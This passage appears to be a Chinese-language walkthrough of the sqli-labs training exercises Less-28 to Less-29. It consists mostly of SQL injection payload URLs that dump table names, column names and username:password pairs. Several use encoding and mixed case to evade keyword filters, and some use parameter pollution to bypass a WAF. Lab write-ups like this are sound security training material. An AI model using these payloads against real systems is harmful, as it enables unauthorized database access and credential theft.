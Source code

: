 暴表

```
http://daishen.ltd:1112/Less-28/?id=0') uniOn sElect 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() && ('1')=('1

http://daishen.ltd:1112/Less-28/?id=0')%a0uniOn%a0sElect%a01,group_concat(table_name),3%a0from%a0information_schema.tables%a0where%a0table_schema=database()%a0%26%26%a0('1')=('1
```

暴字段

```
http://daishen.ltd:1112/Less-28/?id=0') uniOn sElect 1,group_concat(column_name),3 from information_schema.columns where table_name='users' && ('1')=('1

http://daishen.ltd:1112/Less-28/?id=0')%a0uniOn%a0sElect%a01,group_concat(column_name),3%a0from%a0information_schema.columns%a0where%a0table_name='users'%a0%26%26%a0('1')=('1
```

暴值

```
http://daishen.ltd:1112/Less-28/?id=0') uniOn sElect 1,group_concat(username,0x3a,password),3 from users where ('1')=('1

http://daishen.ltd:1112/Less-28/?id=0')%a0uniOn%a0sElect%a01,group_concat(username,0x3a,password),3%a0from%a0users%a0where%a0('1')=('1
```

# **Less 28a **

**GET - Bind Based- All your UNION & SELECT belong to us String-Single quote with parenthesis基于盲注的，有括号的单引号字符型，过滤了union和select等的注入**

与上题Less-28a差不多，也可以用联合查询暴出数据

# **Less 29 **

GET -Error based- IMPIDENCE MISMATCH- Having a WAF in front of web application.
基于获取错误的-IMPIDENCE失配-在Web应用程序前面有一个WAF。

###  index.php

暴位置

```
http://daishen.ltd:1112/Less-29/?id=1&id=0' union select 1,2,3 --+
```

暴库

```
http://daishen.ltd:1112/Less-29/?id=1&id=0'' union select 1,2,database() --+
```
